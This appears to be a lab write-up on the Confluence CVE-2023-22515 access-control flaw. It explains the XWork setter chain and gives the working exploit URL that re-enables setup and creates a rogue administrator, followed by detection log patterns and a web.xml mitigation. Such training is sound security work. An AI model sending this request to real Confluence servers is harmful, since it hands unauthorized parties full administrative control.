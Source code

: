 ﻿On October 4th, 2023, Atlassian released aÂ [security advisory](https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html) regardingÂ **CVE-2023-22515**, a broken access control vulnerability, with an assignedÂ CVSSÂ score ofÂ **10.0**. The vulnerability was introduced in version 8.0.0 of Confluence Server and Data Center editions and is present in versionsÂ `<8.3.3`,Â `<8.4.3`,Â `<8.5.2`. According to Atlassian, the vulnerability hasÂ alreadyÂ been exploited in the wild.

An attacker can exploit the vulnerability to create an additional account in Confluence with full administrative privileges. The attacker needs no prior information to exploit the vulnerability. The vulnerability is believed to enable other unknown attack vectors and should be patched as soon as possible.


# Confluence's Initial Setup

When running Confluence for the first time, you'll go through the initial setup, which allows you to configure some basic parameters and create an administrative account. The initial setup can be reached by navigating toÂ `http://10.10.140.118:8090/setup/`.

If you try to access the initial setup after you have completed it, you won't be able to go through the setup again but will be greeted with a message stating that the setup process is already complete:

![Setup Complete Message](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/87a38e7e852b41d0cf2eee22d9a1708e.png)

This is normal expected behavior and would normally not be useful for an attacker at all.

# EnterÂ CVE-2023-22515

This vulnerability allows an attacker to reenable the initial setup process. In doing so, the attacker can go through the step of creating a new administrator all over again.

This is all possible because Confluence is built using theÂ ApacheÂ Struts framework, which depends on the XWork package. XWork allows you to define Actions in the form of a Java class. Each Action can be invoked through a URL, and the corresponding Java class will handle the request, do whatever the Action requires, and emit a response.Â 

To clarify how Actions work, navigate toÂ `http://10.10.140.118:8090/`. You should immediately be redirected toÂ `http://10.10.140.118:8090/login.action`. This URL calls an Action bound to a Java class to handle login attempts. When an Action is invoked through its URL, theÂ `execute()`Â method of the class will be called by default.

# Calling Getters/Setters via XWorksÂ 

We can also call getters and setters in Action classes by using a URL specifying anÂ HTTPÂ parameter with the chain of attributes we want to get/set. As an example, if the login Action class had aÂ `setId()`Â method, we could invoke it via the following URL:

```shell
http://10.10.140.118:8090/login.action?Id=123
```

This would executeÂ `setId('123')`Â as defined in the corresponding Action class.

# Chaining Getters/Setters to Reenable the Initial Setup

The reported exploit takes advantage of theÂ `ServerInfoAction`Â Action. The reason for picking this specific Action is that we can build a chain of getters/setters from it to set the configuration parameter that turns the initial setup on or off.

If you analyse the code of theÂ `ServerInfoAction`Â class, you'll see it extends theÂ `ConfluenceActionSupport`Â class. By doing so, it will inherit all of its methods as well. One such method is a getter that returns aÂ `BootstrapStatusProvider`Â object:

```java
public class ConfluenceActionSupport extends ActionSupport implements LocaleProvider, WebInterface, MessageHolderAware {
  public BootstrapStatusProvider getBootstrapStatusProvider() {
    if (this.bootstrapStatusProvider == null)
      this.bootstrapStatusProvider = BootstrapStatusProviderImpl.getInstance(); 
    return this.bootstrapStatusProvider;
  }
}
```

We care about theÂ `BootstrapStatusProvider`Â class because it has another getter method we can use to retrieve anÂ `ApplicationConfiguration`Â object:

```java
public class BootstrapStatusProviderImpl implements BootstrapStatusProvider, BootstrapManagerInternal {
  public ApplicationConfiguration getApplicationConfig() {
    return this.delegate.getApplicationConfig();
  }
}
```

As you have probably guessed by now, this object contains the application's configuration, including an attribute that tells Confluence if the initial setup has been finished. Such attribute can be modified by using a setter in theÂ `ApplicationConfig`Â class:

```java
public class ApplicationConfig implements ApplicationConfiguration {
  public synchronized void setSetupComplete(boolean setupComplete) {
    this.setupComplete = setupComplete;
  }  
}
```

If we callÂ `setSetupComplete(false)`, we will effectively reenable the initial setup. Putting it all together, we can call that chain of getters/setters by accessing the following URL:

```shell-session
http://10.10.140.118:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

This will be effectively translated by XWork into a call to:

```java
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
```

Now, go to your browser and navigate to the crafted URL to trigger the vulnerability. You should get the following response from the server:

![Successful Exploit Response](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f84573513308dce89e4e11f2aa5421d7.png)

# Creating an Admin Account

Now that we can access the initial setup once again, let's browse to:Â 

```shell-session
http://10.10.140.118:8090/setup/setupadministrator-start.action
```

Fill in the details of your new admin user and click next:

![Creating a New Admin](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/eabc9bac04b7cf6512f120e4e93e0df6.png)

If all goes well, you should get access to Confluence with administrative privileges!

![Checking the Admin Account](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5a03b959aba38ec9fb2e12cd37401176.png)

In this task, we have gone through a quick explanation of the vulnerability. If you want a more in-depth look at the technical details, checkÂ [Rapid7 analysis in attackerKB](https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis?referrer=moreFromAKB).


# AUTOMATING EXPLOITATION

As we have seen, exploiting the vulnerability is relatively straightforward and can be done manually using a single request and a regular browser. Even so, automated exploits are readily available.Â 

Chocapikk developed one such exploit, which can be downloaded fromÂ [here](https://github.com/Chocapikk/CVE-2023-22515). Feel free to download and use the exploit against the target machine!

On the other hand, if you need to test many servers to see if they are vulnerable, a simple vulnerability scanner was developed by ErikWynter. It can be obtained from hisÂ [GitHub page](https://github.com/ErikWynter/CVE-2023-22515-Scan). Unlike Chocapikk's script, this one will not exploit the vulnerability but test for it only.

# Detection

Should you have an instance of a vulnerable version of Confluence, be sure to check for the following:

- Network access logs pointing toÂ `/setup/*.action`. There's no reason for a regular user to request such URLs after installation.
- Network access logs toÂ `/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false`.
- Review your Confluence users and look for suspicious accounts and members of theÂ `confluence-administrators`Â group.

# Patching

All vulnerable instances should be upgraded to at least one of the following versions as soon as possible:

- 8.3.3
- 8.4.3
- 8.5.2

If upgrading is not possible immediately, access to theÂ `/setup/*`Â endpoints may be blocked as a temporary measure. To do so, add the following security constraint inside theÂ `<web-app>`Â tag inÂ `/<confluence-install-dir>/confluence/WEB-INF/web.xml`:

```xml
<security-constraint>
  <web-resource-collection>
    <url-pattern>/setup/*</url-pattern>
    <http-method-omission>*</http-method-omission>
  </web-resource-collection>
  <auth-constraint />
</security-constraint>
```

This will effectively restrict the access toÂ `/setup/*`.

Remember that the mitigation instructions shouldn't be considered a definitive patch but only an interim measure. Servers should still be upgraded as soon as it becomes possible.
